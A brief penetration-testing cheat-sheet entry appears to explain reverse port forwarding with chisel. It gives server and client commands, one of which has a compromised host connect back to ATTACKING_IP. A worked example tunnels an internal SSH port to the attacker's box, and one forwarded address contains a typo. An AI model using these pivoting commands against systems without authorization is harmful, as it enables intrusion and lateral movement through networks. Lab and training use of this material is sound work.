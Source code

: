 This is where we connect back from a compromised box to create the forward.

On our attacking box we set a listener for compromised box to connect to:
`./chisel server -p LISTEN_PORT --reverse &`

On the compromised box:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

Remember `LOCAL_PORT` is the port we wish to open on our attack box to link with the desired target port

---

## example
**attack ip: ** 172.16.0.20
**compromised ip:** 172.16.0.5
**target:** 172.16.0.10 port 22

`./chisel server -p 1337 --reverse &`
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

This will forward **172.160.10:22** to **port 2222** on our machine
Remember that port **1337** is just the port we started the server on




